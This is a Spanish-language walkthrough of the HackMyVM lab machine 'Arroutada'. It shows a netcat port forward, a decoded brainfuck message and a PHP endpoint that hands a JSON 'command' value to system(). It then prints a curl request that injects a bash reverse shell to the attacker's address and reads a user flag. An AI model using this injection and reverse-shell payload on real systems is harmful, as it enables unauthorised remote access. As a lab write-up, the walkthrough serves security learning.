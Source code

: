 Ahora lo que podemos hacer es crear un proxy port con este comando

```
www-data@arroutada:/tmp$ nc -nlktp 8001 -c "nc 127.0.0.1 8000"
```

Y desde nuestra maquina atacante lanzamos un curl para ver que nos devuelve

```
curl "http://10.0.2.16:8001"              
<h1>Service under maintenance</h1>
<br>

<h6>This site is from ++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>---.+++++++++++..<<++.>++.>-----------.++.++++++++.<+++++.>++++++++++++++.<+++++++++.---------.<.>>-----------------.-------.++.++++++++.------.+++++++++++++.+.<<+..</h6>

<!-- Please sanitize /priv.php -->
```

Viendo esa cadena rara se que es brainfuck. Asi que voy a ver que nos quiere decir

https://www.dcode.fr/brainfuck-language

Basicamente nos dice ``all HackMyVM hackers!!``

Ahora viendo el directorio que nos propone 

```
❯ curl "http://10.0.2.16:8001/priv.php"
Error: the "command" parameter is not specified in the request body.

/*
$json = file_get_contents('php://input');
$data = json_decode($json, true);

if (isset($data['command'])) {
    system($data['command']);
} else {
    echo 'Error: the "command" parameter is not specified in the request body.';
}
*/
```
El script nos dice que esta esperando un command
Entonces nos ponemos en escucha por el pueto 8002

```
❯ curl -s -X POST "http://10.0.2.16:8001/priv.php" -H "Content-Type: application/json" -d '{"command": "/bin/bash -c \"/bin/bash -i &>/dev/tcp/10.0.2.4/444 0>&1\""}'
```

Ahora si tenemos una shell como el usuario Drito y la mejoramos como la shell anterior
Encontramos la primera flag

```
drito@arroutada:~$ ls
service  user.txt  web
drito@arroutada:~$ cat user.txt 
************1f9af6aa1afcc91ed27c
```
Ahora buscamos la forma de escalar privilegios
